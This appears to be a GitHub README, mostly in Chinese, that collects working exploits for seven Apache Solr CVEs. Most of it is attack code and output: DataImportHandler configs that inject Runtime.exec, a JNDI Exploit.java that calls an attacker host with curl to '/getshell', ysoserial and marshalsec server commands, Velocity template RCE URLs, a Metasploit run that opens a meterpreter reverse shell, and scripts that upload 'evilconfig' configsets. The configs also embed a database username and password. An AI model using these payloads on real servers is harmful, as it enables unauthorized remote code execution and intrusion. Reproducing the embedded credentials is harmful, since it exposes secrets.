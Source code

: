 # Apache-Solr-Vulnerability
Apache Solr Some Exploits  🌟

[CVE-2019-0193](https://github.com/fa1c0n1/Apache-Solr-vulnerabilities#cve-2019-0193)

[CVE-2019-0192](https://github.com/fa1c0n1/Apache-Solr-vulnerabilities#cve-2019-0192)

[CVE-2019-17558](https://github.com/fa1c0n1/Apache-Solr-vulnerabilities#cve-2019-17558)

[CVE-2017-12629](https://github.com/fa1c0n1/Apache-Solr-vulnerabilities#cve-2017-12629)

[CVE-2019-12409](https://github.com/fa1c0n1/Apache-Solr-vulnerabilities#cve-2019-12409)

[CVE-2020-13957](https://github.com/fa1c0n1/Apache-Solr-vulnerabilities#cve-2020-13957)

[CVE-2018-8026](https://github.com/fa1c0n1/Apache-Solr-vulnerabilities#cve-2018-8026)

## CVE-2019-0193
Apache Solr DataImportHandler RCE

### 影响版本
Apache Solr < 8.2.0 并且开启了DataImportHandler模块(默认情况下该模块不被启用)

### 漏洞利用

1.首先判读是否solr不需认证直接可访问后台（大多数均可访问）

2.判断是否存在collections

![1](pic/1.png)

3.判断collections是否可以使用dataimport功能

![2](pic/2.png)

4.debug模式修改configuration

原：

```xml
<dataConfig>
  <dataSource  type="JdbcDataSource"
               driver="com.microsoft.sqlserver.jdbc.SQLServerDriver"
               url="jdbc:sqlserver://SqlServer;databaseName=TrainUpCore"
               user="pid.trainup"
               password="S@cram3nt0"
               readOnly="true"
              />


  <document name="TrainUpDoc">
  <entity name="Lo" query="select newid() id, * from CatalogSearch.Categories_LiveTrainingWithoutLocation order by ItemTitle">
                          <field column="ItemTitle" name="ItemTitle"/>
                          <field column="ItemCourseId" name="ItemCourseId"/>
                          <field column="ItemDescription" name="ItemDescription"/>
                          <field column="Price" name="ItemPrice"/>
                          <field column="ItemDurationType" name="ItemDurationType"/>
                          <field column="ItemDurationValue" name="ItemDurationValue"/>
                          <field column="typeItemCode" name="typeItemCode"/>
                          <field column="ProviderWeight" name="ProviderWeight"/>
                          <field column="ItemCatId" name="ItemCatId"/>
                          <field column="PublishedDate" name="PublishedDate"/>
                          <field column="ItemImageUrl" name="ItemImageUrl"/>
                          <field column="ItemTrainingRating" name="ItemTrainingRating"/>
                          <field column="#Row" name="#Row"/>
                          <field column="ItemCatImageUrl" name="ItemCatImageUrl"/>
                          <field column="ItemEventsno" name="ItemEventsno"/>
                          <field column="CourseWeight" name="CourseWeight"/>
                          <field column="CategoryRankScore" name="CategoryRankScore"/>
                          
  </entity>
  </document>
</dataConfig>
```

[1] 无回显 直接执行命令修改：

​	（1）在entity中添加transformer="script:f1"，f1为函数名

​	（2）添加<script>内容

​	（3）execute with this configuration

```xml
<dataConfig>
  <dataSource  type="JdbcDataSource"
               driver="com.microsoft.sqlserver.jdbc.SQLServerDriver"
               url="jdbc:sqlserver://SqlServer;databaseName=TrainUpCore"
               user="pid.trainup"
               password="S@cram3nt0"
               readOnly="true"
              />
     <script><![CDATA[
        function f1(row){
        java.lang.Runtime.getRuntime().exec("powershell xxx");
        return row;
        }
    ]]></script>


  <document name="TrainUpDoc">
  <entity name="Lo" transformer="script:f1" query="select newid() id, * from CatalogSearch.Categories_LiveTrainingWithLocation order by ItemTitle">
                          <field column="ItemTitle" name="ItemTitle"/>
                          <field column="ItemCourseId" name="ItemCourseId"/>
                          <field column="ItemDescription" name="ItemDescription"/>
                          <field column="Price" name="ItemPrice"/>
                          <field column="ItemDurationType" name="ItemDurationType"/>
                          <field column="ItemDurationValue" name="ItemDurationValue"/>
                          <field column="typeItemCode" name="typeItemCode"/>
                          <field column="ProviderWeight" name="ProviderWeight"/>
                          <field column="ItemCatId" name="ItemCatId"/>
                          <field column="PublishedDate" name="PublishedDate"/>
                          <field column="ItemImageUrl" name="ItemImageUrl"/>
                          <field column="ItemTrainingRating" name="ItemTrainingRating"/>
                          <field column="#Row" name="#Row"/>
                          <field column="ItemCatImageUrl" name="ItemCatImageUrl"/>
                          <field column="ItemEventsno" name="ItemEventsno"/>
                          <field column="CityItemEventsno" name="CityItemEventsno"/>
                          <field column="StartDate" name="StartDate"/>
                          <field column="StartTime" name="StartTime"/>
                          <field column="TimeZone" name="TimeZone"/>
                          <field column="MarketCityID" name="MarketCityID"/>
                          <field column="ItemCity" name="ItemCity"/>
                          <field column="CourseWeight" name="CourseWeight"/>
                          <field column="CategoryRankScore" name="CategoryRankScore"/>
  </entity>
  </document>
</dataConfig>
```

![3](pic/3.png)



[2] 有回显 直接执行命令修改：

​	（1）在entity中添加transformer="script:f1"，f1为函数名

​	（2）添加<script>内容，将执行回显输出到field的参数重，如id、ItemDescription，若不行则需结合managed-schema配置输出

​	（3）execute with this configuration

```xml
<dataConfig>
  <dataSource  type="JdbcDataSource"
               driver="com.microsoft.sqlserver.jdbc.SQLServerDriver"
               url="jdbc:sqlserver://SqlServer;databaseName=TrainUpCore"
               user="pid.trainup"
               password="S@cram3nt0"
               readOnly="true"
              />
	<script><![CDATA[
        function f1(row){
        row.put("id",new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("whoami").getInputStream())).readLine());
        return row;
        }
    ]]></script>


  <document name="TrainUpDoc">
  <entity name="Lo" transformer="script:f1" query="select newid() id, * from CatalogSearch.Categories_LiveTrainingWithLocation order by ItemTitle">
                          <field column="ItemCourseId" name="id"/>
                          <field column="ItemDescription" name="ItemDescription"/>
                          <field column="Price" name="ItemPrice"/>
                          <field column="ItemDurationType" name="ItemDurationType"/>
                          <field column="ItemDurationValue" name="ItemDurationValue"/>
                          <field column="typeItemCode" name="typeItemCode"/>
                          <field column="ProviderWeight" name="ProviderWeight"/>
                          <field column="ItemCatId" name="ItemCatId"/>
                          <field column="PublishedDate" name="PublishedDate"/>
                          <field column="ItemImageUrl" name="ItemImageUrl"/>
                          <field column="ItemTrainingRating" name="ItemTrainingRating"/>
                          <field column="#Row" name="#Row"/>
                          <field column="ItemCatImageUrl" name="ItemCatImageUrl"/>
                          <field column="ItemEventsno" name="ItemEventsno"/>
                          <field column="CityItemEventsno" name="CityItemEventsno"/>
                          <field column="StartDate" name="StartDate"/>
                          <field column="StartTime" name="StartTime"/>
                          <field column="TimeZone" name="TimeZone"/>
                          <field column="MarketCityID" name="MarketCityID"/>
                          <field column="ItemCity" name="ItemCity"/>
                          <field column="CourseWeight" name="CourseWeight"/>
                          <field column="CategoryRankScore" name="CategoryRankScore"/>
  </entity>
  </document>
</dataConfig>
```

![4](pic/4.png)

[3] JNDI+LDAP（无需目标的CLASSPATH存在数据库驱动）：

​	（1）修改configuration内容

```xml
<dataConfig>
	<dataSource type="JdbcDataSource"
		jndiName="ldap://xxx.xxx.xxx.xxx:1389/Exploit"/>
	<document>
		<entity name="test">
		</entity>
	</document>	
</dataConfig>
```

​	（2）hackserver

Exploit.java

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.*;
import java.util.Hashtable;

public class Exploit implements ObjectFactory {

    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        try {
            Runtime.getRuntime().exec("curl http://xxx.xxx.xxx.xxx:1212/getshell");
        } catch (IOException e) {
            e.printStackTrace();
        }
        return null;
    }
}
```

JDK 高版本会限制远程codebase 加载，期待1.8以下

```
javac --release 7 Exploit.java

java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndiDAPRefServer http://xxx.xxx.xxx.xxx:8888/#Exploit 1389

python3 -m http.server 8888
```

​	（3）execute with this configuration

![5](pic/5.png)

### 工具利用

https://github.com/Rapidsafeguard/Solr-vulnerabilities-CVE-2019-0192/blob/master/solr_RCE.py
https://github.com/weTomorrow/solr_poc/blob/master/solr_poc.py

## CVE-2019-0192

### 影响版本

Apache Solr 5.0.0-5.5.5 版本

Apache Solr 6.0.0-6.6.5 版本

### 漏洞利用

configAPI主要功能是检索或修改配置。 GET负责检索，POST负责执行命令。通过传入set-property属性，构造恶意的数据，传入指向恶意的rmi服务器的链接，覆盖之前服务器的原设置，使得目标服务器与攻击者的恶意rmi服务器相连，攻击者可以使用ysoserial工具，通过rmi服务器向远端目标服务器发送命令，并在目标服务器上执行，实现远程命令执行

1.首先判读存在cores节点

```
http://ip:port/solr/admin/cores?wt=json
```

![7](pic/7.png)

```
http://ip:port/solr/name[0]/config
```

![8](pic/8.png)

2.server通过ysoserial部署RMI server

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1234 Jdk7u21 "cmd"
```

![9](pic/9.png)

注意: 你会看到返回中出现500错误

如果错误中包含: “Non-annotation type in annotation serial stream” 说明 Apache Solr 的Java版本 > JRE 7u25，则PoC执行不成功。

如果你看到错误中包含: “undeclared checked exception; nested exception is”，则PoC执行成功.

### 工具利用

https://github.com/mpgn/CVE-2019-0192/blob/master/CVE-2019-0192.py

## CVE-2019-17558

### 影响版本

Apache Solr 5.x到8.2.0版本

### 漏洞利用
```
http://ip:port/solr/+core_name+/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![6](pic/6.png)

### 工具利用

https://github.com/wyzxxz/Apache_Solr_RCE_via_Velocity_template

## CVE-2017-12629

### 影响版本

Apache Solr 5.5.0到7.0.1版本

### 漏洞利用
此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

https://paper.seebug.org/425/

## CVE-2019-12409

### 影响版本
APACHE SOLR 8.1.1/8.2.0 CONFIGURATION FILE SOLR.IN.SH PRIVILEGE ESCALATION

### 漏洞利用
Apache Solr的8.1.1和8.2.0发行版中的默认配置文件solr.in.sh,在其配置文件中ENABLE_REMOTE_JMX_OPTS字段默认配置不安全.如果使用受影响版本中的默认配置,那么将启用JMX监视服务并将对公网监听一个18983的RMI端口,且无需进行任何身份验证,配合JMX RMI将会导致远程代码执行.

使用Metasploit 
```
msf5 > use multi/misc/java_jmx_server
msf5 exploit(multi/misc/java_jmx_server) > show options

Module options (exploit/multi/misc/java_jmx_server):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   JMXRMI        jmxrmi           yes       The name where the JMX RMI interface is bound
   JMX_PASSWORD                   no        The password to interact with an authenticated JMX endpoint
   JMX_ROLE                       no        The role to interact with an authenticated JMX endpoint
   RHOSTS                         yes       The target address range or CIDR identifier
   RPORT                          yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT       8080             yes       The local port to listen on.
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf5 exploit(multi/misc/java_jmx_server) > set RHOSTS a.a.a.a
RHOSTS => a.a.a.a
msf5 exploit(multi/misc/java_jmx_server) > set RPORT 18983
RPORT => 18983
msf5 exploit(multi/misc/java_jmx_server) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > show options

Module options (exploit/multi/misc/java_jmx_server):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   JMXRMI        jmxrmi           yes       The name where the JMX RMI interface is bound
   JMX_PASSWORD                   no        The password to interact with an authenticated JMX endpoint
   JMX_ROLE                       no        The role to interact with an authenticated JMX endpoint
   RHOSTS        a.a.a.a     yes       The target address range or CIDR identifier
   RPORT         18983            yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT       8080             yes       The local port to listen on.
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf5 exploit(multi/misc/java_jmx_server) > set LHOST b.b.b.b
LHOST => b.b.b.b
msf5 exploit(multi/misc/java_jmx_server) > run
[*] Started reverse TCP handler on b.b.b.b:4444
[*] a.a.a.a:18983 - Using URL: http://b.b.b.b:8080/OcbYS8uaTPDH
[*] a.a.a.a:18983 - Sending RMI Header...
[*] a.a.a.a:18983 - Discovering the JMXRMI endpoint...
[+] a.a.a.a:18983 - JMXRMI endpoint on a.a.a.a:18983
[*] a.a.a.a:18983 - Proceeding with handshake...
[+] a.a.a.a:18983 - Handshake with JMX MBean server on a.a.a.a:18983
[*] a.a.a.a:18983 - Loading payload...
[*] a.a.a.a:18983 - Replied to request for mlet
[*] a.a.a.a:18983 - Replied to request for payload JAR
[*] a.a.a.a:18983 - Executing payload...
[*] a.a.a.a:18983 - Replied to request for payload JAR
[*] Sending stage (53867 bytes) to a.a.a.a
[*] Meterpreter session 1 opened (a.a.a.a:4444 -> b.b.b.b:46582) at 2019-11-21 15:24:53 +0000

meterpreter > 
```

### 工具利用
https://github.com/siberas/sjet

## CVE-2020-13957

### 影响版本

Apache Solr 6.6.0 - 6.6.5

Apache Solr 7.0.0 - 7.7.3

Apache Solr 8.0.0 - 8.6.2

### 漏洞利用

Apache Solr Configset Api上传功能存在未授权漏洞。攻击者可以上传含有恶意配置的solrconfig.xml从而触发CVE-2019-17558进行命令执行（SolrCloud模式才可利用）

1.首先构造含有恶意配置的myconfigset.zip

![10](pic/10.png)

2.上传myconfigset.zip进入ZooKeeper

```
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @myconfigset.zip "http://localhost:8983/solr/admin/configs?action=UPLOAD&name=test3myConfigSet"
```

![11](pic/11.png)

3.从Zookeeper中选择恶意的solrconfig.xml创建新的Collection

```
curl -v "http://localhost:8983/solr/admin/collections?action=CREATE&name=newCollection3&numShards=2&replicationFactor=1&wt=xml&collection.configName=test3myConfigSet"
```

![12](pic/12.png)

4.EXP命令执行

```
curl -v "http://127.0.0.1:8983/solr/newCollection3/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
```

![13](pic/13.png)

## CVE-2018-8026

### 影响版本

Apache Solr >= 6.0.0, < 6.6.5

Apache Solr >= 7.0.0, < 7.4.0

### 漏洞利用
这次的XXE漏洞依赖于SolrCloud API，影响到SolrCloud分布式系统。而SolrCloud需要用到zookeeper

```
import requests

upload_url = "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=evilconfig"
files = open("evil.zip", "rb")
print(requests.post(upload_url, data=files).text)

create_url = "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=eviltest&numShards=1&collection.configName=evilconfig"
print(requests.get(create_url).text)
```

https://xz.aliyun.com/t/2448
